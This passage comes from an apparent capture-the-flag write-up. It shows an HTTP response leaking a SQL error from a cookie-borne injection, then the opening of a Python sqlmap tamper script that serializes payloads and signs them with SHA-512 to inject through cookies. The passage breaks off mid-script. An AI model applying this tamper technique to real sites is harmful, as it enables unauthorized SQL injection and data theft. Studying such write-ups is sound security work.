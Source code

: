 <pre><code>HTTP/1.1 200 OK
Date: Sun, 22 Sep 2013 14:26:41 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: widget_tracker=YToxOntpOjA7aTo2MDA1O30%3D
Set-Cookie: widget_validate=edbb6cfade602ccb8b854387eb28cb19419ec5348d0940434a6417bacc173df3da49813c169d501a7b5a9894872327465e2819ec97ab14d9dac94942eab92ca3
Vary: Accept-Encoding
Content-Length: 260
Content-Type: text/html

&lt;link rel="stylesheet" type="text/css" href="style.css"&gt;
&lt;div id="content"&gt;
&lt;h1&gt;Widget Corp &lt;span&gt;Raise your dongers? More like raise your widgets.&lt;/span&gt;&lt;/h1&gt;
Unknown column 'lol' in 'where clause'&lt;!-- SELECT * FROM widgets WHERE widget_id in (lol) --&gt;&lt;/div&gt;
</code></pre>

<p>At this point I was running out of time and needed to solve the next web400 so I decided to automate the SQL-injection process with the help of my good old friends - <a href="http://sqlmap.org/">sqlmap</a> and its tamper scripts. I love <a href="https://breaking.into.systems/read/2013/beat-dynamic-parameters-with-sqlmap">writing</a> tamper scripts! So I quickly piled up a tamper script that would do everything <em>sqlmap</em> normally does but instead, operate on cookies with all encoding required (also see it on <a href="https://git.io/fAdp4">Github</a>):</p>

<pre><code>#!/usr/bin/env python

from lib.core.enums import PRIORITY
import phpserialize
import urllib
import base64
import hashlib


__priority__ = PRIORITY.HIGHEST


def dependencies():
    pass


def tamper(payload, **kwargs):

    if payload:
        param = []
        param.append(payload)

        serialized = phpserialize.dumps(param)
        #print serialized

        widget_validate = hashlib.sha512(serialized).hexdigest()
        #print widget_validate
